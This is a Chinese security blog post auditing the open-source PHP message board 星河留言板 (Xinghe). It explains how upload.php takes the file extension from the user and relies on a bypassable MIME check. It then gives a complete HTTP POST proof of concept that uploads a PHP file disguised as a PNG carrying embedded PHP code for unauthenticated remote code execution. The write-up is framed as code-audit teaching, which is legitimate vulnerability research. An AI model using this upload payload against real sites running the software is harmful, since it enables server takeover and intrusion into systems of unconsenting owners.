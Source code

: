 #  【PHP代审】星河留言板存在前台任意文件上传RCE   
原创 菜狗安全  菜狗安全   2025-04-21 00:00  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPlPBODMGcLpNt9QBAWypThbYIByxEDn9vF4hhNXdT8CTSgyPPuXUMgKvhEnLB3uETictJWV83Akic1A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QtaE6uFmibPlPBODMGcLpNt9QBAWypThblPVAndvyTpQFwq1A0r1dWhvB7eMS9aib6BWewwHCOepINib6su4KMIibw/640?wx_fmt=gif&from=appmsg "")  
  
点击上方蓝字·关注我们  
  
  
免责声明  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QtaE6uFmibPlPBODMGcLpNt9QBAWypThbpd3jzvdXXROdjXCddIaUR6icvQfhjUVDAXNPbM4SuibSU8GwCr9t5VvA/640?wx_fmt=gif&from=appmsg "")  
  
  
由于传播、利用本公众号  
菜狗安全  
所提供的信息而造成的任何直接或者间接的后果及损失，均由  
使用者本人负责，公众号  
菜狗安全  
及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，会立即删除并致歉。  
  
文章目录  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QtaE6uFmibPlPBODMGcLpNt9QBAWypThbpd3jzvdXXROdjXCddIaUR6icvQfhjUVDAXNPbM4SuibSU8GwCr9t5VvA/640?wx_fmt=gif&from=appmsg "")  
  
```
介绍
漏洞分析
漏洞复现  
最后 
```  
  
2sdfsf  
  
# 介绍  
  
一款基于PHP 7.0+开发的开源在线留言板源代码，旨在为用户提供简洁、易用且功能丰富的留言交互体验。其界面基于Bootstrap 5构建，支持响应式设计，能够适应不同设备的屏幕尺寸。程序采用POST方法提交数据，并提供了一个简易的后台管理系统，用户可以通过该后台修改网站标题、删除留言等操作。本程序依赖于Bootstrap 5.3 CSS/JS、Bootstrap Icons以及PHP 7.0+环境运行  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_jpg/QtaE6uFmibPk9xJia3o5nTzPF5o1qOC8HMtmKgURJ5sVGK35oHgBrs9KIgDTPjL3nAhNTDL0CeRZnhyflf2NpbeA/640?wx_fmt=other&from=appmsg "")  
# 漏洞分析  
  
**全局搜索关键词：move_uploaded_file(**  
  
**对应文件：upload.php**  
  
****  
**在第44行使用move_uploaded_file()上传文件，跟踪$targetPath，42行定义了$targetPath，由$uploadDir . $filename组成，跟踪$filename,按照公开课的思路，看后缀能否为可执行文件后缀，$filename在41行通过uniqid() . '.' . $ext组成，这里$ext就是后缀，看从哪获取，在40行通过 pathinfo获取，获取的就是我们上传文件的后缀，那么这里后缀可控**  
  
**在24行开始发现有验证文件类型的代码**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPk9xJia3o5nTzPF5o1qOC8HMuSK4KGHN7m33s5H246yJVSpMK903MiavvrmicBnRIxPcicxTe7jdGIBiaw/640?wx_fmt=png&from=appmsg "")  
  
**使用 finfo_open 和 finfo_file 函数获取上传文件的 MIME 类型，将获取到的 MIME 类型与 $allowedTypes 数组进行对比，判断是否允许该文件类型，这里过滤和没有一样**  
  
**使用 finfo_file 函数读取上传文件的二进制内容，确定其真实的 MIME 类型，检查该 MIME 类型是否在 $allowedTypes 数组中（即是否为允许的图片格式：image/jpeg、image/png、image/gif）这里要保证上传文件内容中有对应MIME类型的二进制内容，也没啥用，上传正常图片在中间插后门即可**  
# 漏洞利用  
  
**poc:**  
```
POST /upload.php HTTP/1.1
Host: liuyan:776
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNmBLaV0KeGTm4x0J
Referer: http://liuyan:776/
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
Origin: http://liuyan:776
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Length: 806
------WebKitFormBoundaryNmBLaV0KeGTm4x0J
Content-Disposition: form-data; name="images[]"; filename="ELOG.php"
Content-Type: image/png
{{unquote("\x89PNG\x0d\x0a\x1a\x0a\x00\x00\x00\x0dIHDR\x00\x00\x00\x10\x00\x00\x00\x10\x04\x03\x00\x00\x00\xed\xdd\xe2R\x00\x00\x000PLTE\xfc\xfe\xfcS\x12\x28\x1a^/\xb9\xb6\xc5\x8d\x17\x29\xa4\xa7P\x0a\x0f\xb4r\x7dX\xac\xa3\xc6\xd7\xd3\xbf\xaaz~\x87\x92\x94i=<\x7fWY4:\xc4L\x86\\\x88\x00\x89X\x00\x00\x00VIDAT\x08\xd7c`@\x02\x1c\x06PF<?php phpinfo();?>[2\x94\x91\x96\x07el\xaf\x862Xaj\xd8\x03\xa0\x8c\x85\xc2P\x86\xa0\x0c\x84f\x16\x14\x9c\x00fL?\x28\x13\xc9\xc9\xc0\xc0\xa4\xa4\xda\x7b#\xd4e\x01\x90Q\xc0\xc0\xc0\xe5\xe2\x00dl\x00*s\x11`\xe0W\x02\x19\xb7\xd6\x00\xee\x04\x00\x1a\xe5\x0d\x92\xba\xf2\xba\xb3\x00\x00\x00\x00IEND\xaeB`\x82")}}
------WebKitFormBoundaryNmBLaV0KeGTm4x0J--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPk9xJia3o5nTzPF5o1qOC8HMHttialFYib2nJsiaO4Q1XBHMHic8LqVWFRTMR7ZIHsSXcNZ4Gq4FkABrjA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPk9xJia3o5nTzPF5o1qOC8HMa62geicMhSRkpkuNjbuqWA9icicKqd9ZfKqQmgR2mqzciapNOSCewf3oEQ/640?wx_fmt=png&from=appmsg "")  
# 最后  
  
［源码获取］微信公众号回复“星河留言板”获取下载地址  
  
  
二期公开课  
《PHP代码审计速成》持续更新中...  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPkbBVeYfrUfL88JdIrNL1s0xGx9icQnia5JQgegfKwoeIbOsm4VuVDHXxkA63vqtL6Dz8oYucicgWdpA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
# 直播通知和课件都会在交流群中发布，有需要的师傅可以加我VX，备注：交流群，我拉你进群  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/QtaE6uFmibPmic8RYXMickJZbXfFDicmYbdzTb4XdVfibZH9IicN9uAezcmaqbHLP929dS7AfmybpqpczicmicZzNM42AQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
性感群主不定期在线水群解答问题  
  
  
  
